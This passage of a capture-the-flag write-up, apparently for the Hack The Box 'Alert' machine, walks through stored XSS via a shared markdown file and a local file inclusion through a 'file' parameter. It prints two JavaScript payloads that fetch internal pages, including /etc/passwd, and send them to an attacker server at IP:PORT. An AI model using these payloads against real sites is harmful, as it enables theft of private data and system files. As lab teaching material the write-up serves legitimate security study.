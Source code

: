 Even though nothing is displayed when we view our file, checking the page's source code confirms it is included in the page.

![page source code](/images/HTB-Alert/script_included.png)

We use the link we obtain with the `Share Markdown` button at `/contact`.

![xss payload in contact page](/images/HTB-Alert/XSS_contact.png)

After sending the message we receive a response on our web server.

We decode the URL-encoded response in Burp. Its content is the html file of the home page.

![home page source code](/images/HTB-Alert/HTML_alert.png)

Once again we modify the content of our markdown file. This time we will try to access `/messages`. We use the link such as `http://alert.htb/visualizer.php?link_share=xxxxxx.xxxxxx.md` on the contact page.

If the user triggering our payload has higher privileges we might be able to see the content of `/messages`.

```Javascript
<script>
fetch("http://alert.htb/messages.php")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

On the web server we receive a response, which we decode.

### Local File Inclusion

Using Burp decoder we notice that the response is using a `file` parameter at `messages.php`.

![file parameter at messages.php](/images/HTB-Alert/file_param.png)

Let's try leveraging it for an LFI vulnerability.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/passwd")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

After decoding the response we see that the LFI works! We find two users `albert` and `david`.
